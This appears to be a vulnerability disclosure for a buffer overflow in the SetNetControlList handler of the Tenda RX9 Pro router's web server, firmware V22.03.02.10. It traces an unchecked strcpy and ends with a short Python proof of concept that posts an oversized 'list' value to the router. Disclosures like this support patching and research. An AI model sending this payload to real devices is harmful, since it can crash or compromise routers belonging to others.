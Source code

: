 # buffer overflow

## Tenda_RX9_Pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/SetNetControlList

## Source:

you may download it from : https://www.tendacn.com/download/detail-4218.html

## Analyse:


![](https://s3.bmp.ovh/imgs/2022/08/15/8d0b6100485e0583.png)

get value from list and send it to sub_43157C

![](https://s3.bmp.ovh/imgs/2022/08/15/1c5219ca8c53bd1b.png)

don't check the length of a1 and call strcpy


## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
```
